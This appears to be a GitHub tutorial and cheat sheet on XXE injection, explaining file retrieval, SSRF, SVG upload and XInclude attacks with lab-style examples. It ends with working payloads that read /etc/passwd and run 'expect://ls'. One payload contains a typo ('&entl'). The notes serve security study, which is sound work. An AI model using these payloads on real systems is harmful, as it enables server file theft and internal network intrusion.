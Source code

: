 # XML external entity (XXE) Injection
XXE injection is a web security vulnerability that allows us to interfere with the processing of XML data. It often allows us to view files on the server filesystem, and to interact with any back-end or external systems that the application itself can access.

Types of XXE attacks
- `XXE to retrieve files` An external entity is containing the contents of a file, and is returned in the response.
- `XXE to perform SSRF` An external entity is defined based on a URL to a back-end system.
- `Blind XXE exfiltrate data out-of-band` sensitive data is transmitted from the application server to a system that the attacker controls.
- `Blind XXE to retrieve data via error messagess` we Can trigger a parsing error message containing sensitive data.

<!-- -->

				XXE to retrieve files
##### performing an XXE injection attack that retrieves an arbitrary file from the server you need to modify the submitted XML in two ways:

- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

<!-- -->
Example:

A shopping application checks the stock of products by submitting the following XML
![](XXE1.png)
Their is no defense so we can exploit this by using the following XXE payload
![](XXE2.png)
The payload defines a external entity `&xxe;`. Whose value is in `/etc/passwd` file and uses the entity within `productId` value.This causes the respone to include the contents of `/etc/passwd`
![](XXE3.png)

			XXE via file upload
##### Sometimes Applications allow users to upload files which are then processed server-
side

 Common XML based file formats:
 - `SVG`
 - `DOCX`
 - `XLSX`

<!-- -->
Example:

Create a `SVG` image with the payload

Upload the image Getting a similar response
![](XXE7.png)


			XXE via modified content type
##### Most post requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some sites expect to receive requests in this format but tolerate other content types, including XML.
			
Example:
A normal request the following:
![](XXE8.png)
You might be able to submit the following with the same result:
![](XXE9.png)
			
			XXE to SSRF

Example:
A shopping application checks the stock of products by submitting the following XML
![](XXE1.png)
The external entity will cause the server to make a back-end HTTP request to an internal system within the websites infrastructure.
![](XXE4.png)

					XInclude	
##### Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document

Example:
Packet being sent 
![](XXE5.png)
We don't control the entire XML document and so cannot define or modify a `DOCTYPE` element. However, we can use `XInclude`
![](XXE6.png)

					XXE payloads

## Retrieving files:
```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <Name>&entl</Name>
</userInfo>
```
## XXE inside SVG
```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```
## XXE to SSRF
```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.site.com/text.txt">]><foo>&xxe;</foo>
```
## XInclude
`<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
